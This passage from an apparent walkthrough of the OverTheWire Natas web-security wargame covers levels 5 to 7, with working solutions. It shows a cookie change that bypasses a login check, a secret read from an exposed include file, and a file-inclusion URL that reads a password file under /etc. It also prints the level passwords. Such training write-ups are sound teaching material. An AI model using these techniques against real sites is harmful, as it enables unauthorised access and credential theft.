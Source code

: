 We change  the value of the cookie like so

```
document.cookie = "loggedin=1"
```

After refreshing the page, this is what we see

```
Access granted. The password for natas6 is 0RoJwHdSKWFTYR5WuiAewauSuNaBXned
```

**Password**: `0RoJwHdSKWFTYR5WuiAewauSuNaBXned`


## Level 6

We can view the source code, which contains this PHP code

```php
include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
```

> I briefly thought the challenge had something to do with the **double equals** operator, because I remembered that it is not the ideal comparison operator to use in PHP, but it turns out that this challenge has nothing to do with that

The key is to notice the `include` line. Entering the `/includes/secret.inc` path into the URL, we can see a blank page, but if we view the page source, there is a comment with the password to the input field

Go to this URL: `http://natas6.natas.labs.overthewire.org/includes/secret.inc`. Inside the source code, we see this: `? $secret = "FOEIUWGHFEEUHOFUOIU"; ?`. 

Now we just need to enter this password on the original page (`http://natas6.natas.labs.overthewire.org/`), and it shows us the password for the level

```
Access granted. The password for natas7 is bmg8SvU1LizuWjx3y7xkNERkHxGre0GS
```

**Password**: `bmg8SvU1LizuWjx3y7xkNERkHxGre0GS`


## Level 7

I somehow didn't notice it at first, but there is a comment within the source code that gives us a hint. It tells us this: `hint: password for webuser natas8 is in /etc/natas_webpass/natas8 `

Going to this URL: `http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8` displays the password on the screen 
